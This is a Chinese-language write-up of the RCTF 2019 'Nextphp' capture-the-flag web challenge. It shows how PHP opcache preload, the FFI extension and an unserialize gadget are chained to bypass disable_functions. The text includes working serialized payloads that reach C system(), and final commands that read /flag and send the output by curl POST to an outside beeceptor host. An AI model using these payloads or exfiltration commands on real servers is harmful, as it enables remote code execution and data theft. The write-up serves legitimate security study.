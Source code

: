 # \[RCTF 2019]Nextphp

## \[RCTF 2019]Nextphp

## 考点

* PHP FFI
* PHP opcache
* bypass disable\_functions

## wp

给了个shell的源码

```php
<?php
if (isset($_GET['a'])) {
    eval($_GET['a']);
} else {
    show_source(__FILE__);
}
```

`?a=phpinfo();`看到phpinfo中设置了disable\_functions

![](<../../.gitbook/assets/image (8) (1).png>)

`?a=var_dump(scandir('/'));`提示没有权限，`?a=var_dump(scandir('.'));`看到两个文件，index.php和preload.php。再读取preload.php

```php
<?php
final class A implements Serializable {
    protected $data = [
        'ret' => null,
        'func' => 'print_r',
        'arg' => '1'
    ];

    private function run () {
        $this->data['ret'] = $this->data['func']($this->data['arg']);
    }

    public function __serialize(): array {
        return $this->data;
    }

    public function __unserialize(array $data) {
        array_merge($this->data, $data);
        $this->run();
    }

    public function serialize (): string {
        return serialize($this->data);
    }

    public function unserialize($payload) {
        $this->data = unserialize($payload);
        $this->run();
    }

    public function __get ($key) {
        return $this->data[$key];
    }

    public function __set ($key, $value) {
        throw new \Exception('No implemented');
    }

    public function __construct () {
        throw new \Exception('No implemented');
    }
}
```

实际上还是要仔细观察phpinfo，可以看到设置了opcache.preload，启用了FFI，禁用了反射类

```
opcache.preload：/var/www/html/preload.php
open_basedir：/var/www/html
disable_classes：ReflectionClass
disable_functions:
```

![](<../../.gitbook/assets/image (16).png>)

![](<../../.gitbook/assets/image (5) (1) (1).png>)

[opcache.preload](https://www.php.net/manual/en/opcache.configuration.php#ini.opcache.preload) 是 **PHP7.4** 中新加入的功能。如果设置了 [opcache.preload](https://www.php.net/manual/en/opcache.configuration.php#ini.opcache.preload) ，那么在所有Web应用程序运行之前，服务会先将设定的 **preload** 文件加载进内存中，使这些 **preload** 文件中的内容对之后的请求均可用。更多细节可以阅读：[https://wiki.php.net/rfc/preload](https://wiki.php.net/rfc/preload) ，在这篇文档尾巴可以看到如下描述：

> In conjunction with ext/FFI (dangerous extension), we may allow FFI functionality only in preloaded PHP files, but not in regular ones

大概意思就是说允许在 **preload** 文件中使用 **FFI** 拓展，但是文档中说了 **FFI** 是一个危险的拓展，而这道题目却开启了 **FFI** 拓展。我们可以参考文档：[https://wiki.php.net/rfc/ffi](https://wiki.php.net/rfc/ffi) 中的例子：

```php
<?php
// create FFI object, loading libc and exporting function printf()
$ffi = FFI::cdef(
    "int printf(const char *format, ...);", // this is regular C declaration
    "libc.so.6");
// call C printf()
$ffi->printf("Hello %s!\n", "world");
```

如果不设置 **FFI::cdef** 的第二个参数，也可以调用 **C** 函数。那么命令执行函数格式如下

```php
<?php
$ffi = FFI::cdef("int system(const char * command);");
$ffi->system("whoami");
```

preload.php中定义了A类，实现了Serializable接口，`__unserialize()`函数会在反序列化时被调用。这一特性是在PHP7.4中新加入的，具体可参考：[https://wiki.php.net/rfc/custom\_object\_serialization](https://wiki.php.net/rfc/custom\_object\_serialization)

```php
<?php
final class A implements Serializable {
    protected $data = [
        'ret' => null,
        'func' => 'FFI::cdef',
        'arg' => 'int system(char *command);'
    ];
    public function serialize (): string {
        return serialize($this->data);
    }
    public function unserialize($payload) {
        $this->data = unserialize($payload);
        $this->run();
    }
    public function __get ($key) {
        return $this->data[$key];
    }
    public function __set ($key, $value) {
        throw new \Exception('No implemented');
    }

}
echo base64_encode(serialize(new A()));
// QzoxOiJBIjo4OTp7YTozOntzOjM6InJldCI7TjtzOjQ6ImZ1bmMiO3M6OToiRkZJOjpjZGVmIjtzOjM6ImFyZyI7czoyNjoiaW50IHN5c3RlbShjaGFyICpjb21tYW5kKTsiO319I7fX0
```

传入`?a=var_dump(unserialize(base64_decode("QzoxOiJBIjo4OTp7YTozOntzOjM6InJldCI7TjtzOjQ6ImZ1bmMiO3M6OToiRkZJOjpjZGVmIjtzOjM6ImFyZyI7czoyNjoiaW50IHN5c3RlbShjaGFyICpjb21tYW5kKTsiO319")));`

![](<../../.gitbook/assets/image (34) (1).png>)

触发`A::run()`从而把FFI对象返回给`A->data['ret']`，再用`A::__get()`函数就可以获取FFI对象了

`?a=var_dump(unserialize(base64_decode("QzoxOiJBIjo4OTp7YTozOntzOjM6InJldCI7TjtzOjQ6ImZ1bmMiO3M6OToiRkZJOjpjZGVmIjtzOjM6ImFyZyI7czoyNjoiaW50IHN5c3RlbShjaGFyICpjb21tYW5kKTsiO319"))->__get('ret'));`

![](<../../.gitbook/assets/image (2) (1).png>)

最后payload

```
?a=var_dump(unserialize(base64_decode("QzoxOiJBIjo4OTp7YTozOntzOjM6InJldCI7TjtzOjQ6ImZ1bmMiO3M6OToiRkZJOjpjZGVmIjtzOjM6ImFyZyI7czoyNjoiaW50IHN5c3RlbShjaGFyICpjb21tYW5kKTsiO319"))->__get('ret')->system("echo `ls /` > 1.txt;curl -v -X POST 'https://peri0d.free.beeceptor.com/my/api/' -d @1.txt"));
?a=var_dump(unserialize(base64_decode("QzoxOiJBIjo4OTp7YTozOntzOjM6InJldCI7TjtzOjQ6ImZ1bmMiO3M6OToiRkZJOjpjZGVmIjtzOjM6ImFyZyI7czoyNjoiaW50IHN5c3RlbShjaGFyICpjb21tYW5kKTsiO319"))->__get('ret')->system("echo `cat /flag` > 1.txt;curl -v -X POST 'https://peri0d.free.beeceptor.com/my/api/' -d @1.txt"));
```

![](<../../.gitbook/assets/image (35) (1).png>)

## 小结

1. [RCTF2019Web题解之nextphp](https://mochazz.github.io/2019/05/21/RCTF2019Web%E9%A2%98%E8%A7%A3%E4%B9%8Bnextphp/#nextphp)
